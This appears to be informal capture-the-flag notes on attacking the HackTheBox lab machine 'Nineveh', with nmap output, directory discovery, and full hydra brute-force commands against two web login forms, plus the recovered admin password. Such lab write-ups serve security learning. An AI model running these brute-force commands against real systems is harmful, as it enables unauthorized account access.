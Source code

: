Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-29 20:12 EDT
Nmap scan report for nineveh.htb (10.129.162.247)
Host is up (0.29s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
|_http-title: 400 Bad Request
| tls-alpn: 
|_  http/1.1

the certificcate ot https site:

![](20230529201755.png) indiactes admin user exists

Login.php at /department by gobuster

gives invalid username and password error messages

![](20230529203531.png)

this indiacates that admin user exists

`sqlmap -r login.req` - no results

how to bruteforce for admin


also run gobuster onhttps site and we get /db page

using hydra

```
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt 10.129.162.247 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid"
```

```
hydra -l admin -P /usr/share/wordlists/seclists/Passwords/Common-Credentials/10k-most-common.txt 10.129.162.247 https-post-form "/db/index.php:password=^PASS^&login=Log+In&proc_login=true:Incorrect"

```

found a password
![](20230529212256.png)

[80][http-post-form] host: 10.129.162.247   login: admin   password: 1q2w3e4r5t

![](20230529214536.png)


. SecLists (apt install seclists) has a twitter-banned.txt that seems like a reasonable place to start:

password123 is a password


